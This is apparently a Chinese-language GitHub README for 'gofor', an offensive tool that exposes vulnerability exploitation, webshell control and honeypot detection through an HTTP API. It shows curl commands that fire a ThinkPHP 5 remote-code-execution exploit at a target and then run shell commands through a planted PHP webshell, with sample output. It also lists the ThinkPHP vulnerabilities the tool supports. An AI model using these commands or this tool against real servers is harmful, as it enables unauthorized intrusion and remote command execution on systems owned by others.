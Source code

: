 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

# HTTP API Gateway
```shell
cd src/api-srv && \
go run main.go
```

# Service Install(Optional)
**Webshell**
```shell
cd src/webshell-srv && \
go run main.go
```
# Example
[*] ThinkPHP5.0.20 RCE 攻击例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://172.31.50.248:8080","cve":"VUL-2021-04271"}' http://172.31.50.249:8888/exploit/ExploitServiceExt/ExploitWithAttack
```
`{"cve":"VUL-2021-0427","tunnel":"172.31.50.249:37461"}`

[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://172.31.50.249:37461/ant.php","language":"php","cmd":"ls"}' http://172.31.50.249:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
`{"output":"ant.php\nfavicon.ico\nindex.php\nproxy.php\nrobots.txt\nrouter.php\nshell.php\nstatic\ntest.php\n"}`


# 当前支持漏洞列表
| id | 漏洞名 |
|--|--|
| VUL-2021-04271  | Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability |
| VUL-2021-04272  | ThinkPHP5 5.0.23 Remote Code Execution Vulnerability |

